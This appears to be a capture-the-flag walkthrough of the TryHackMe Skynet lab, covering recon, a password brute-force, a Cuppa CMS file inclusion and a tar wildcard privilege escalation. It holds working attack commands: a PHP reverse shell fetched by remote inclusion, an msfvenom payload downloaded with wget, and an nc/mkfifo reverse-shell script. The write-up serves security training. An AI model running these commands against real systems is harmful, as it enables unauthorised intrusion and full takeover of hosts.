





# TryHackMe's Skynet Room

<https://tryhackme.com/r/room/skynet>

## Introduction

This article is a walkthrough of the TryHackMe's Skynet Room from the Offensive Security learning path.

## Recon

Start with a nmap scan

```bash
nmap -sV -O -sC -Pn 10.10.102.8
```

Among other things you will find that port 80 is open with an Apache server running.  
Enumerate the subdirectories of the web app:

```bash
gobuster dir -u http://10.10.102.8/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.102.8/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 310] [--> http://10.10.102.8/admin/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.102.8/css/]
/js                   (Status: 301) [Size: 307] [--> http://10.10.102.8/js/]
/config               (Status: 301) [Size: 311] [--> http://10.10.102.8/config/]
/ai                   (Status: 301) [Size: 307] [--> http://10.10.102.8/ai/]
/squirrelmail         (Status: 301) [Size: 317] [--> http://10.10.102.8/squirrelmail/]
/server-status        (Status: 403) [Size: 276]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

The subdirectory /squirrelmail host a email service but it requires authentication.  
From the previous nmap scan you also found a smb service listening, use nmap to enumerate the smb shares:

```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.102.8

Starting Nmap 7.60 ( https://nmap.org ) at 2024-10-19 10:33 BST
Nmap scan report for ip-10-10-102-8.eu-west-1.compute.internal (10.10.102.8)
Host is up (0.00023s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 02:E4:EA:46:E7:D5 (Unknown)

Host script results:
| smb-enum-shares:
|   account_used: guest
|   \\10.10.102.8\IPC$:
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (skynet server (Samba, Ubuntu))
|     Users: 2
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.102.8\anonymous:
|     Type: STYPE_DISKTREE
|     Comment: Skynet Anonymous Share
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\srv\samba
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.102.8\milesdyson:
|     Type: STYPE_DISKTREE
|     Comment: Miles Dyson Personal Share
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\milesdyson\share
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.102.8\print$:
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>
| smb-enum-users:
|   SKYNET\milesdyson (RID: 1000)
|     Full name:
|     Description:
|_    Flags:       Normal user account

Nmap done: 1 IP address (1 host up) scanned in 1.27 seconds
```

`\\10.10.102.8\anonymous` can be accessed anonymously, proceed as follow:

```bash
smbget -R smb://10.10.102.8/anonymous
Password for [guest] connecting to //anonymous/10.10.102.8:
Using workgroup WORKGROUP, user guest
smb://10.10.102.8/anonymous/attention.txt
smb://10.10.102.8/anonymous/logs/log2.txt
smb://10.10.102.8/anonymous/logs/log1.txt
smb://10.10.102.8/anonymous/logs/log3.txt
Downloaded 634b in 2 seconds
```

You can leave the password blank.  
You have now access to a series of useful files.  
`attention.txt` contains information about a recent malfunction leading to password changes.

```bash
cat attention.txt
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson
```

`log1.txt` contains a list of words that look a lot like passwords.

```bash
cat log1.txt
cyborg007haloterminator
terminator22596
terminator219
terminator20
terminator1989
terminator1988
terminator168
terminator16
terminator143
terminator13
terminator123!@#
terminator1056
terminator101
terminator10
terminator02
terminator00
roboterminator
pongterminator
manasturcaluterminator
exterminator95
exterminator200
dterminator
djxterminator
dexterminator
determinator
cyborg007haloterminator
avsterminator
alonsoterminator
Walterminator
79terminator6
1996terminator
```

## Initial compromise

You will now attempt to brute-force the login of the email service using Burp Suite.  
With the samba enumeration you found a reference to the `milesdyson` user. It is reasonable to try to login to the mail service with that user.  
Try to login with the `milesdyson` user and any password, capture the request with Burp and send it to the Burp Intruder.



Proceed to configure the attack, you will launch a sniper attack. Set the payload position for the password according the image below.



For the payload list load the `log1.txt` file found earlier.



Once you are done it will look like the image below.



Launch the attack.  
If the attack is successful one of the results will stand out from the others in terms of status code and length. This is because in a success scenario there is only one successful login (corresponding to the correct password) while all the others will fail.



As you can see from the image, the attack is successful. Retrieve the password related to the successful result.

## Get a shell

Once obtained the password log to the mail account.  
Look around a bit and you will find a mail related to a samba password reset with the new password in clear text.  
Now you have the password for the smb user `milesdyson`, access to it and take a look.

```bash
smbclient -U milesdyson //10.10.114.155/milesdyson
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\milesdyson's password:
Try "help" to get a list of possible commands.
smb: \>
```

You will find a `important.txt` file, read it.

```bash
smbget -R -U milesdyson smb://10.10.114.155/milesdyson/notes/important.txt
Password for [milesdyson] connecting to //milesdyson/10.10.114.155:
Using workgroup WORKGROUP, user milesdyson
smb://10.10.114.155/milesdyson/notes/important.txt
Downloaded 117b in 23 seconds
```

```bash
cat important.txt

1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```

This file contains a hidden subdirectory `/45kra24zxs28v3yd` that did not show up in the previous gobuster scan.  
Visit the `http://10.10.114.155/45kra24zxs28v3yd/` page.  
At first sight looks like a dead end, with just an image and some static content.  
Run another gobuster scan, this time starting from the `/45kra24zxs28v3yd` directory.

```bash
gobuster dir -u http://10.10.114.155/45kra24zxs28v3yd/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.114.155/45kra24zxs28v3yd/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/administrator        (Status: 301) [Size: 339] [--> http://10.10.114.155/45kra24zxs28v3yd/administrator/]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

You found another subdirectory: `/45kra24zxs28v3yd/administrator`.  
Visit it and you will find out that hosts a Cuppa CMS service.  
It takes only a few minutes of googling to find out that Cuppa CMS is vulnerable to file inclusion, see <https://www.exploit-db.com/exploits/25971> for more details.

You will now proceed to exploit the vulnerability by uploading a web shell.  
The attack box come equipped with a php shell at `/usr/share/webshells/php/`.  
Change the IP with the IP of your own attack box as shown below.

```bash
cd /usr/share/webshells/php/
cat php-reverse-shell.php
....
$ip = '10.10.237.245';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
.....
```

You can leave the port number as is.  
Next you need to make the shell file available to the target: run a python http server in the same folder where the shell file is located.

```bash
root@ip-10-10-237-245:/usr/share/webshells/php# python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Start a listener.

```bash
nc -lvnp 1234
Listening on [0.0.0.0] (family 0, port 1234)
```

Trigger the file inclusion visiting `http://10.10.114.155/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.10.237.245:8000/php-reverse-shell.php`.  
Adjust the IPs to fit your case.

```bash
nc -lvnp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from 10.10.114.155 33912 received!
Linux skynet 4.8.0-58-generic #63~16.04.1-Ubuntu SMP Mon Jun 26 18:08:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 06:13:20 up  1:22,  0 users,  load average: 0.00, 0.00, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

You have now received a reverse shell from the target.  
The current access is sufficient to obtain the user flag.

```bash
$ cd /home/milesdyson
$ cat user.txt
[REDACTED]
```

## Privilege escalation

You will now escalate your privileges to root access, but before that you will switch to a more stable and feature-rich shell, the `meterpreter`.

Craft a meterpreter payload with `msfvenom`.

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.237.245 LPORT=4444 -f elf > rev_shell.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 123 bytes
Final size of elf file: 207 bytes
```

Start a http server in the same folder of the payload, to serve it to the target.

```bash
python -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
```

From your shell on the target download the payload.

```bash
$ wget http://10.10.237.245:8081/rev_shell.elf
--2024-10-19 06:35:29--  http://10.10.237.245:8081/rev_shell.elf
Connecting to 10.10.237.245:8081... connected.
HTTP request sent, awaiting response... 200 OK
Length: 207 [application/octet-stream]
Saving to: 'rev_shell.elf'

     0K                                                       100% 60.0M=0s

2024-10-19 06:35:29 (60.0 MB/s) - 'rev_shell.elf' saved [207/207]
```

On your attack box run `msfconsole` and start a handler to receive the meterpreter connection.

```bash
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.10.237.245
lhost => 10.10.237.245
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.237.245:4444
```

Run the payload on the target.

```bash
$ chmod +x rev_shell.elf
$ ./rev_shell.elf
```

You should get a meterpreter session.

```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.237.245:4444
[*] Sending stage (1017704 bytes) to 10.10.114.155
[*] Meterpreter session 1 opened (10.10.237.245:4444 -> 10.10.114.155:43316) at 2024-10-19 12:40:41 +0100

meterpreter >
```

On your attack box `bg` your current session and download `linpeas`, which is a common script to look for privilege escalation vectors.

```bash
msf6 exploit(multi/handler) > wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```

Restart the session and upload the script.

```bash
msf6 exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > upload linpeas.sh
[*] Uploading  : /root/linpeas.sh -> linpeas.sh
[*] Uploaded -1.00 B of 805.42 KiB (0.0%): /root/linpeas.sh -> linpeas.sh
[*] Completed  : /root/linpeas.sh -> linpeas.sh
```

On the target drop into a system shell and launch the script saving the output to file.

```bash
meterpreter > shell
./linpeas.sh -a > /dev/shm/linpeas.txt
```

Go back to the meterpreter and download the results on your machine.

```bash
meterpreter > download /dev/shm/linpeas.txt
[*] Downloading: /dev/shm/linpeas.txt -> /root/linpeas.txt
[*] Downloaded 168.18 KiB of 168.18 KiB (100.0%): /dev/shm/linpeas.txt -> /root/linpeas.txt
[*] Completed  : /dev/shm/linpeas.txt -> /root/linpeas.txt
```

Take a look to the results.

```bash
msf6 exploit(multi/handler) > less -r linpeas.txt
```

After a while you might notice an interesting cron line:  
`_/1 _ \* \* \* root /home/milesdyson/backups/backup.sh`  
The backup.sh script is being run every minute by the root user: if you could find a way to modify the script or replace it with a malicious one you could get root access!  
Here comes the catch: the script is owned by root and you can neither change it nor replace it.

```bash
ls -la
total 4584
drwxr-xr-x 2 root       root          4096 Sep 17  2019 .
drwxr-xr-x 5 milesdyson milesdyson    4096 Sep 17  2019 ..
-rwxr-xr-x 1 root       root            74 Sep 17  2019 backup.sh
-rw-r--r-- 1 root       root       4679680 Oct 19 08:08 backup.tgz
```

All hope is not lost though, let's look at the script.

```bash
cat backup.sh
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

You can still get away with it by exploiting the `tar` command, without any change to the script.  
This is done by leveraging the wildcard of the tar command: basically when the command is run the '\*' wildcard is expanded in the names of all the files in the current directory.  
You can create some malicious files to inject some additional options in the tar command.  
In particular you will add additional parameters to the command that will cause the execution of a malicious script.  
For more insight into this vulnerability visit <https://medium.com/@polygonben/linux-privilege-escalation-wildcards-with-tar-f79ab9e407fa>

Create the malicious files on the target machine.

```bash
cd /var/www/html
echo "" > '--checkpoint=1'
echo "" > '--checkpoint-action=exec=sh priv_esc.sh'
```

`bg` the meterpreter session and create a malicious script that will start a reverse shell.

```bash
msf6 exploit(multi/handler) > cat priv_esc.sh
[*] exec: cat priv_esc.sh

mkfifo /tmp/f; nc 10.10.237.245 443 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

Resume the meterpreter session and upload the script to the target.

```bash
meterpreter > cd /var/www/html
meterpreter > upload priv_esc.sh
[*] Uploading  : /root/priv_esc.sh -> priv_esc.sh
[*] Uploaded -1.00 B of 79.00 B (-1.27%): /root/priv_esc.sh -> priv_esc.sh
[*] Completed  : /root/priv_esc.sh -> priv_esc.sh
```

Drop into a system shell and ensure that the script has execution rights.

```bash
chmod +x priv_esc.sh
```

Start a listener on your attack box.  
Now all you have to do is sit back and wait, you should get a connection soon.

```bash
nc -lvnp 443
Listening on [0.0.0.0] (family 0, port 443)
Connection from 10.10.114.155 51842 received!
whoami
root
```

To sum up: the malicious script was run leveraging the tar command.  
Since the tar command was running with root privileges, the script ran as root as well.  
As a consequence you are able to get a reverse shell with root access.  
Grab the root flag and you are done.

```bash
cd /root
ls
root.txt
cat root.txt
[REDACTED]
```

This concludes this room, see you in the next one. Happy hacking!
